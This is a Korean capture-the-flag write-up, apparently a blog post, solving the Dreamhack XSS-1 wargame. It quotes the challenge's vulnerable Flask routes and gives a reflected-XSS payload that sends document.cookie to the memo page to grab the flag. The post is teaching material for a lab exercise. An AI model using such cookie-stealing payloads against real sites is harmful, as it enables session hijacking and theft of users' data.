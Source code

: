 ```yaml
---
layout: post
title: Dreamhack | XSS-1
subtitle: Dreamhack XSS-1 
categories: dreamhack.io
tags: [Pentest, Web]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207234522-3e3cd64b-edf7-4266-ae7b-9e7746d6d79d.png" width = 400> 
</p>

해당 문제는 드림핵 Cross Site Script 로드맵에 등장하는 첫번째 문제이다.

접속 정보와 해당 서버를 구성하는 `app.py` 파일이 존재한다.

XSS 취약점을 이용해서 flag를 가져와야한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207234918-9582ecd3-1cc7-4992-9078-b1fc94c27fa5.png" width = 180> 
</p>

접속했을 때 위 처럼 3개의 링크가 존재하는 것을 알 수 있다.

## 문제 풀이

* **vuln(xss)page** : 해당 링크를 접속하면 `1` 이라는 Alert가 뜨는데 해당 URL을 보면 `http://host3.dreamhack.games:17344/vuln?param=%3Cscript%3Ealert(1)%3C/script%3E`로 되어 있다. 

* **memo** : 접속 시 **hello**라는 문구가 있다. 재접속을 할 때 마다 한 줄씩 늘어나게 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207235285-1fd71c10-57c3-4872-8603-522c7d321b86.png" width = 160> 
</p>

`app.py`를 보고 어떤 식인지 확인해보겠습니다.

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param
```

vuln page로 사용자가 입력한 값을 인자로 가져온다. 결국 param의 값은 `<scrpit>alert(1)</scrpit>`였다는 것을 알 수 있고, URL을 보면 해당 parameter가 있다.

즉, 해당 부분에서는 XSS 취약점이 발생한다는 것을 알 수 있따.

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo = memo_text)
```

memo 페이지는 사용자가 입력한 `memo` 입력 값을 `memo_text += text + "\n"`로 추가하여 **memo.html**을 통해 우리의 입력 값을 보여준다.

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

`GET` 메소드 이용 시 **flag.html**를 제공하며, `POST` 메소드 이용시 `check_xss`의 함수를 거치는 것을 알 수 있다.

```python
if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

check_xss의 인자로는 `param`과 `cookie`인데 cookie를 보면 해당 이름은 **flag**, 그에 대한 값은 **FLAG.strip()** FLAG의 시작과 끝의 공백을 제거하여 값을 전달한다.

해당 url 접속 시 cookie에 해당 **FLAG**가 포함되는 것을 알 수 있다.

> memo를 통해 입력 값을 기록할 수 있고, check_xss를 통해 cookie의 포함된 flag를 알 수 있다.

```
<script>location.href = "/memo?memo = " + document.cookie;</script>
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207242306-5147e934-f55e-4f77-88b7-cd38b0722f16.png" width = 370> 
</p>

해당 페이로드를 전송하고 다시 **memo**로 들어가면 FLAG가 입력되어 있는 것을 알 수 있다.